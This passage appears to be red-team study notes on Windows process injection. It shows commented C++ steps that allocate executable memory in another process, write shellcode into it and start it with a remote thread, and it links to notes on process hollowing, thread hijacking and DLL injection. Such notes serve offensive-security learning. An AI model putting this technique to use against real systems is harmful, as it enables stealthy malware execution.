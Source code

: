 Step 2:

```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Step 3:

```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Step 4:

```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Then once the binary or program is compiled and we have a list of process ID that we want to inject:

![Abusing Windows Internals-2.png|450](/img/user/cards/red-team/images/Abusing%20Windows%20Internals-2.png)

**Other Techniques:** (Moved to their dedicated file due to file size.)

- [[cards/red-team/Process Hollowing\|Injects a malicious executable into a suspended legitimate process by unmapping its original memory and replacing it with custom PE code, allowing stealthy code execution under a trusted process name.]]

- [[cards/red-team/images/Abusing Process Components\|Injects shellcode into a remote process by hijacking one of its existing threads, redirecting its execution flow to malicious code without creating a new thread, improving stealth.]]

- [[cards/red-team/images/Abusing DLLs\|Injects a malicious DLL into a target process by allocating memory for its path and using CreateRemoteThread to call LoadLibrary, enabling execution of attacker-controlled code inside another process.]]
